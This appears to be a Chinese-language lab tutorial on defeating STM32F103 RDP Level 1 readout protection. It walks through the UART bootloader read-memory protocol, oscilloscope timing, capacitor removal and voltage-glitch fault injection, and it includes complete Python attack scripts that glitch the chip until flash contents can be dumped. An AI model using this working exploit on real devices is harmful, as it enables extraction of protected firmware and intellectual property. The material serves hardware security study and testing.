# 相关工具及环境


## 推荐硬件设备清单

- STM32F103 核心板（Blue Pill）
- STLink
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- USB 转 TTL 小板
- 杜邦线若干


## 软件清单

- [Pico 示波器软件](https://www.picotech.com/downloads)
- [STM32CubeProgrammer](https://www.st.com.cn/zh/development-tools/stm32cubeprog.html)

------

# RDP 介绍与开启

为了保护芯片内的固件不被攻击者获取，ST 给芯片设计了固件读保护机制（Readout Protection）简称 RDP

## **RDP 级别定义** 

- Level 0：无任何保护，默认的 RDP 级别，仅适用于开发和调试  
- Level 1：禁用部分调试功能，无法通过调试接口访问 Flash，但可以读取 SRAM  
- Level 2：完全禁用调试，禁止读写任何资源，大部分型号无法回退
- Level 0.5：适用于启用 TrustZone 的 STM32 MCU，仅限制对安全世界的调试访问，允许访问非安全世界


## RDP 开启与关闭

| STM32 | ST-Link |
| ----- | ------- |
| 3V3   | 3.3V    |
| GND   | GND     |
| SWCLK | SWCLK   |
| SWO   | SWDIO   |

使用 ST-Link 连接 STM32 的 SWD 接口




打开 STM32CubeProgrammer 连接成功后点击左侧【OB】选项进入选项字节（Option Bytes）配置页面，勾选 RDP 保护，点击 Apply 应用即可开启 RDP




关闭 RDP1 与开启路径相同，在 Option bytes 选项字节中将 RDP 取消勾选并应用，将 RDP 关闭，此后可以读取 Flash 中的内容，但 Flash 被清空



------

# STM32 Uart Bootloader 介绍与使用

## Uart Botloader 介绍与连接

根据 [STM32F1XXX 参考手册(P60)](https://www.st.com/resource/en/reference_manual/rm0008-stm32f101xx-stm32f102xx-stm32f103xx-stm32f105xx-and-stm32f107xx-advanced-armbased-32bit-mcus-stmicroelectronics.pdf)，STM32F103 根据 BOOT 引脚的电平状态，共有三种启动模式，根据 [STM32 Datasheet(P15)](https://www.st.com/resource/en/datasheet/stm32f103c8.pdf) System meoery 中存放的是 bootloader，这部分是芯片在制造阶段烧进去的，是一段只读（不可更改）的代码

这段代码的主要作用为通过串口对 STM32 的 Flash 进行擦除和写入。即可以在板级上进行编程，而不用把芯片拆下来放到烧写器中，所以称作“在系统编程” ISP（In-System Programming）要使用 UART Bootloader 功能要切换到 System memory 启动，即 BOOT0 要设置为 1，BOOT1 要设置为 0

因此将 BOOT0 跳线帽接到 1；BOOT1 跳线帽接到 0 切换到 Bootloader 启动




按照如下线序将 STM32 与串口小板连接在一起，将串口小板插到电脑 USB 接口，打开 CubeProgrammer 选择 UART 进行连接（如果未开启 RDP，应该读出了 Flash 数据）

| **STM32** | **USB TO TTL** |
| --------- | -------------- |
| **3V3**   | **3V3**        |
| **GND**   | **GND**        |
| **A9**    | **RXD**        |
| **A10**   | **TXD**        |




## Uart Bootloader 通信协议

ST 对于 UART Bootloader 的通信协议有一份详细的文档，这将成为我们突破 RDP 的关键：[protocol in stm32 bootloader](https://www.st.com/resource/en/application_note/cd00264342-usart-protocol-used-in-the-stm32-bootloader-stmicroelectronics.pdf)




通过探索该文档，发现 0x11 这条命令是用来通过 Uart Bootloader 读取内存的，[根据手册 P15 和 P16](https://www.st.com/resource/en/application_note/cd00264342-usart-protocol-used-in-the-stm32-bootloader-stmicroelectronics.pdf) 中的描述，流程为：

1、发送 0x11 及其反码校验 0xEE

2、收到 ACK 再发送要读取的地址，该地址格式为四个字节的大端序，且互相异或得出一个字节的校验和

3、收到 ACK 后发送 Size 及其反码校验和，<font size=2>Size为实际要读的大小减一</font>

4、收到 ACK 后，接收读回来的数据

每次读取最多 256 个字节数据，但是可以写个循环多次读取




因此编写脚本尝试通过 Uart Bootloader 读取 flash 中的内容：

```py
import serial # 导入串口库
import struct

# 初始化串口，校验格式为偶校验
s = serial.Serial("COM52",115200,parity=serial.PARITY_EVEN,timeout=0.5)

s.write(b"\x7F") # 发送 0x7F
recv = s.read(1)
print("0x7F ack: ",recv.hex())

s.write(b"\x11\xEE") # 发送 0x11 read memory
recv = s.read(1)
print("0x11 ack: ",recv.hex())

addr = 0x08000000
a = struct.pack('>I',addr) # 大端序
x = struct.pack('B',(a[0] ^ a[1] ^ a[2] ^ a[3])) # 计算校验和
address = a + x

s.write(address) # 发送 address
recv = s.read(1)
print("address ack: ",recv.hex())

s.write(b"\xFF\x00") # 发送 size 0xFF
recv = s.read(1)
print("size ack: ",recv.hex())

flash = s.readall()
print("Read back Flash: ",flash.hex())
```




## 故障 Uart Bootloader

但当开启 RDP 后仍然无法通过该方法读取固件，值得注意的是：开启 RDP1 后 Bootloader 并不是完全拒绝响应的，当我们使用 0x7F 激活 bootloader 时仍然回复了 0x79，等到 0x11 请求读取 Flash 时才会返回 0x1F 那是不是有可能意味着：<font color=red>**每次发送 0x11 时 Bootloader 都会先检查 RDP1 是否开启，再决定是否可以执行读取 Flash 的操作呢？**</font>


使用示波器抓取读取 Flash 的 UART 通信过程，并添加串行译码解析 UART 通信，选择偶校验




图中红色波形为 PA10；蓝色波形为 PA9，通过示波器波形图中的虚线标尺可以看到，发送完 \x11\xEE 大约 14.44us 返回了 \x1F，如果真如我们所想，那么校验逻辑一定在这期间，我们可以在这期间进行故障注入，根据 UART 协议，read memory 命令会产生 6 次上升沿，只要在 PA10 发送 \x11\xEE 造成的第六次上升沿后的 14.44us 内注入故障就有可能绕过 RDP 的检查



------

# 故障注入绕过STM32F1x RDP1

## 电压毛刺注入物理位置

查阅 [STM32F103 的芯片手册](https://www.st.com/resource/en/datasheet/cd00161566.pdf)，F103芯片有多个供电引脚，这些直接接到了开发板的 3.3V 上，因此我们直接对开发板的供电引脚进行电压短路故障注入


## 去电容提高成功率

开发板上的电容具有储能的特性，如果在一个具有巨大电容的电源线上进行电压短路故障注入，电压会缓慢下降到零，达不到我们期望的效果，因此我们需要把电容去除（这里仅以某型号 STM32F103 开发板为例，具体需根据卖家给的原理图自己查找）




我们的 STM32F103 核心板只是个小开发板，不是什么复杂的系统，所以可以放心的多去几个电容试试




## 故障注入时遇到的问题

1、如何控制设备重启（重启）

​	答：通过 PowerShorter 设备的 GPIO 为 STM32 供电，Python 代码控制 GPIO

2、打哪个地方的电压、如何打（毛刺物理位置、CPU 核心供电、短路毛刺、毛刺宽度）

​	答：直接打 VDD 供电引脚；短接 VDD 和 GND 使其电压短暂拉低

3、什么时候打故障（毛刺时间位置、触发、延时）

​	答：以 \x11\xEE 发送时在 A10 上产生的第 6 个上升沿作为触发，打在上升沿14.44us 内

4、怎么判断是否打成功了（故障结果反馈）

​	答：判断 \x11\xEE 返回的结果，为 \x79 则表示故障成功


## 硬件接线参考




## 成功波形参考




## 攻击脚本参考

导入相关库

```python
from power_shorter import *
import time
import serial
import faultviz
import random
```

初始化设备

```python
ps_dev = PowerShorter("com86")
```

给设备上下电，检查是否能够正常重启

```python
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
```

初始化 faultviz 服务与表单

```python
faultviz.start_view_service(port=12345) 
vt = faultviz.ViewWidget()
```

定义 Uart Bootloader 中地址格式转化函数

```python
def gen_addr(addr_int):
    addr_checksum = 0
    addr_bytes = addr_int.to_bytes(4,byteorder="big")
    for i in addr_bytes:
        addr_checksum ^= i
    return addr_bytes + addr_checksum.to_bytes(1,byteorder="big")
```

初始化串口小板

```python
s = serial.Serial('com50', 115200, parity=serial.PARITY_EVEN, timeout=0.5)
```

定义攻击函数

```python
def stm32_attack():
    ps_dev.gpio(GPIO.GPIO1, 0)
    time.sleep(0.3)
    ps_dev.gpio(GPIO.GPIO1, 1)
    glitch_delay = random.randint(990, 1050)
    glitch_pulse = random.randint(15, 30)
    
    ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE,1 ,6)    # 设置毛刺上升沿六次触发
    s.write(b'\x7f')
    res1 = s.readall().hex()
    
    ps_dev.arm(Engine.E1)        # 发送 0x11 0xEE 前激活毛刺
    s.write(b'\x11\xee')
    res2 = s.read(1).hex()
    if res2 == '79':             # 若返回 79 则表示成功绕过 RDP
        status = "Success"
        s.write(gen_addr(0x08000000))   # 发送要读取的地址
        res3 = s.read(1).hex()
        s.write(b'\xff\x00')            # 发送要读取的 size
        res4 = s.read(257).hex()        # 接收读取的数据
        result = res1+res2+res3+res4
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = str(result))
        return 0
        
    else:
        status = "Normal"
        result = res1 + res2  
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = str(result))
        return 1
```

执行一次攻击函数，检查代码是否有问题

```python
stm32_attack()
```

查看表单，检查刚才的攻击是否将结果添加到表单中

```python
vt.show()
```

写个循环，直到成功绕过 RDP 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置

```python
attackflag = 1
while(attackflag):
    attackflag = stm32_attack()
```

